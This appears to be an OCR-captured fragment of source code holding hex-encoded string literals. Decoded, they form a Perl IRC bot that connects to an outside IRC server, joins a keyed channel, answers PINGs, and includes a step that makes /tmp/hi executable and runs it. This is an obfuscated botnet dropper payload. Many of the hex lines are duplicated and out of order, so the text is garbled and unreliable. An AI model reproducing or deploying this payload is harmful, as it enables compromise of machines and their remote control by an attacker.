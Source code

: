         "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x24\x6b\x65\x79"
        "\x20\x3d\x22\x66\x61\x67\x73\x22\x3b\x24\x6e\x69\x63\x6b\x3d\x22"
        "\x70\x68\x70\x66\x72\x22\x3b\x24\x73\x65\x72\x76\x65\x72\x3d\x22"
        "\x69\x72\x63\x2e\x68\x61\x6d\x2e\x64\x65\x2e\x65\x75\x69\x72\x63"
        "\x2e\x6e\x65\x74\x22\x3b\x24\x53\x49\x47\x7b\x54\x45\x52\x4d\x7d"
        "\x64\x20\x2b\x78\x20\x2f\x74\x6d\x70\x2f\x68\x69\x20\x32\x3e\x2f"
        "\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x3b\x2f\x74\x6d\x70\x2f\x68\x69"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a";